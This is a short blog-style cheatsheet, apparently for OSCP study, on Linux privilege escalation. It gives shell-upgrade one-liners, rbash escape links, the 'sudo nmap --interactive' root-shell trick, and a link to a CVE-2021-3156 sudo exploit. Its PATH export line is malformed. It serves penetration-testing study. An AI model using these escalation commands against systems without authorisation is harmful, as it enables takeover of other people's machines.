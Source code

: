 ```yaml
---
title: Linux Privilege Escalation
author: linatl
date: "2021-03-23 00:01"
tags: [OSCP, Cheatsheet]
layout: post
---
```


###### Upgrading Shells
```
Upgrade sh to bash using python2
> python -c 'import pty; pty.spawn("/bin/bash")'

Correcting the $PATH variable for sh / bash
> export PATH=$PATH:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin/usr/bin:/sbin:/binusr/local/sbin:/usr/local/bin:/usr/sbin:/bin

Upgrading from rbash:
https://www.hacknos.com/rbash-escape-rbash-restricted-shell-escape/
https://www.hackingarticles.in/multiple-methods-to-bypass-restricted-shell/
```

###### Sudo -l
```
List user privileges for sudo
> sudo -l

Nmap interactive
> sudo nmap --interactive
> nmap> !bash
```

###### CVE-2021-3156
```
64bit
https://github.com/worawit/CVE-2021-3156
```

###### GTFObins
```
https://gtfobins.github.io/
```
